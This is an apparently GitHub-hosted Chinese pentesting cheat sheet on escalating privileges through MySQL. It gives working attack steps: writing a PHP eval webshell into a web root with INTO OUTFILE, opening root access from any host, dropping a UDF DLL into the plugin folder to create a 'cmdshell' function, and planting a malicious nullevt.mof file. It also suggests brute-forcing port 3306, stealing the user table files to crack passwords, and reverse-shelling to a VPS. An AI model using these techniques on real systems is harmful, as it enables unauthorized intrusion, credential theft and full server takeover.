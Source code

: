 # MySQL权限

## mysql提权

#### udf提权原理和大致步骤:

```
通过webshell上传一个动态链接库文件，当mysql版本>5.1时候，该动态链接库文件必须存放在mysql/lib/plugin/目录下才能创建自定义函数，该目录是默认不存在的，需要我们自行创建，然后我们再通过mysql创建一个自定义函数，该自定义函数需要和动态链接库中的函数对应，然后通过自定义函数执行对应的系统命令.
如果mysql版本低于5.1，该动态链接库文件在03服务器中需要将该文件存放到c:/windows/system32/目录下
该动态链接库文件在windows2000下放置于c:\winnt\system32
```

##### 条件

```
获取的mysql账户需要有对mysql的插入删除以及创建自定义函数权限，一般以root账号为佳
secure_file_prive为空
Mysql版本大于5.1版本udf.dll文件必须放置于MYSQL安装目录下的lib\plugin文件夹下。
Mysql版本小于5.1版本。udf.dll文件在Windows2003下放置于c:\windows\system32，在windows2000下放置于c:\winnt\system32。
```
#### mof提权原理和大致步骤:
```
mof 提权利用了 c:/windows/system32/wbem/mof/ 目录下的 nullevt.mof 文件，MOF文件每五秒就会执行一次，而且是系统权限.
如果我们通过使用into dumpfile 将自己构造的nullevt.mof文件写入/wbem/mof目录下，然后系统每隔五秒就会执行一次我们上传的MOF文件。MOF文件当中有一段是vbs脚本，我们可以通过控制这段vbs脚本的内容让系统执行命令，进行提权
```

##### 条件

```
要求:
1.windows 2003及以下版本
2.mysql启动身份具有权限去读写c:/windows/system32/wbem/mof目录
3.secure-file-priv参数为空
4.root权限，知道账户和密码
```

### 前提条件:拥有root账户和密码

### 有哪些方式可以获得一个root权限的账户?

```
已经获取一个低权限的webshell，可以读取某些文件文件
	a、翻找网站根目录下的文件夹,看是否可以读取到root账户的密码）通过下载位于mysql/data/目录下的user文件,然后导入数据库读取
	c、可以考虑3306端口爆破
	d、如果说某个地方存在sql注入,并且该mysql默认连接的是root账户那是不是也相当于获取了一个root
```

#### 拥有webshell之后如何获取mysql密码?

```
执行select @@datadir 得到mysql数据存放路径，找到该路径下的mysql/user表文件(有三个)，下载到本地
```
![](./image/0.png)

**1、本地搭建环境创建一个数据库**
![](./image/1.png)

**2、将下载到的user表对应的三个数据文件放到本地创建的数据库对应的目录下面**
![](./image/2.png)

直接查询得到账户和密码(密码可以使用cmd5进行解密)
![](./image/3.png)


mysql开启外连

成功开启外联会多一个%(表示指出任意地址连接)

```
Grant all privileges on *.* to 'root'@'%' identified by 'root' with grant option;
```

![](./image/4.png)

### mysql写文件的条件

**into outfile() 写马操作**

```
1、必须知道网站的绝对路径
2、用户必须是root权限且secure-file-priv!=null 
3、没有特殊函数对' 进行转义或过滤addslashes()、magic_qutos_gpc
```

```
select '<?php eval($_POST[1]);?>' into outfile "c:/inetput/wwwroot/shell.php"
```

**mysql 5.5之后默认secure_file_prive=null 只能通过更改配置文件的方式进行**

```
当 secure_file_priv 的值为 NULL ，表示 mysqld 不允许导入|导出，此时无法提权
当 secure_file_priv 的值为 /tmp/ ，表示限制 mysqld 的导入|导出只能发生在 /tmp/ 目录下，此时也无法提权,shell也无法写入到网站根目录
当 secure_file_priv 的值没有具体值时，表示不对 mysqld 的导入|导出做限制，此时可提权
```

### udf提权

#### 原理和大致步骤:

```
通过webshell上传一个动态链接库文件，当mysql版本>5.1时候，该动态链接库文件必须存放在mysql/lib/plugin/目录下才能创建自定义函数，该目录是默认不存在的，需要我们自行创建，然后我们再通过mysql创建一个自定义函数，该自定义函数需要和动态链接库中的函数对应，然后通过自定义函数执行对应的系统命令.
如果mysql版本低于5.1，在03服务器中需要将该文件存放到c:/windows/system32/目录下
在windows2000下放置于c:\winnt\system32
```

#### 条件

```
需要root权限以及对应的账户和密码
secure_file_prive为空
```

##### 1、定义一个变量

```
user mysql;
set @a=concat('',0xcontent)
```

##### 2、创建一个表

```
create table if not EXISTS Ghost(data LONGBLOB);
```

##### 3、将变量的数据通过更新的方式插入到该表中(也可以直接插入16进制的数)

```
insert into Ghost values("");update Ghost set data = @a;
```

##### 4、将表中的的数据以二进制的方式写入到C:\\phpStudy\\MySQL\\lib\\plugin\xx.dll下

```
DUMPFILE 表示以二进制写入数据
select data from mysql.Ghost into DUMPFILE 'C:\\phpStudy\\MySQL\\lib\\plugin\\2.dll';
```

##### 5、创建一个命令执行函数(该函数和xx.dll文件中的函数对应)

```
这里类似从2.dll中调用cmdshell这个自定义函数
CREATE FUNCTION cmdshell RETURNS STRING SONAME '2.dll';
```

##### 6、通过命令执行函数执行对应的命令

```
select cmdshell('net user');
```

##### 保存数据，以记事本打开该文件

![](./image/8.png)

![](./image/6.png)

![](./image/7.png)

#### mysql 提权大马的使用(使用的也是udf提权)

```
通过获取的webshell上传大马进行提权
```



![](./image/19.png)

### mof提权

```
mof 提权利用了 c:/windows/system32/wbem/mof/ 目录下的 nullevt.mof 文件，MOF文件每五秒就会执行一次，而且是系统权限.
如果我们通过使用into outfile 将自己构造的nullevt.mof文件写入/wbem/mof目录下，然后系统每隔五秒就会执行一次我们上传的MOF。MOF当中有一段是vbs脚本，我们可以通过控制这段vbs脚本的内容让系统执行命令，进行提权
```

条件

```
要求:
1.windows 03及以下版本
2.mysql启动身份具有权限去读写c:/windows/system32/wbem/mof目录
3.secure-file-priv参数不为null
4.root权限，知道账户和密码
```



```
select load_file("C:/tools/phpstudy/WWW/nullevt.mof") into dumpfile "C:/WINDOWS/system32/wbem/mof/nullevt.mof"
```
![](./image/20.png)

![](./image/21.png)



### 反弹提权

#### mysql反弹shell提权(和udf本质是一样的)

```
（1）通过网站无法获取webshell
（2）Webshell无法执行命令
（3）有phpmyadmin和root账号，无法查询或者无法获取网站的真实路径

1.必须是一个root权限
2.能写入相对应的plugin目录
3.—secure-file-priv 这个参数的值不能为NULL
```

**反弹到对应的vps的ip和端口即可**

![](./image/15.png)

![](./image/16.png)

#### php大马反弹提权

![](./image/17.png)

![](./image/18.png)
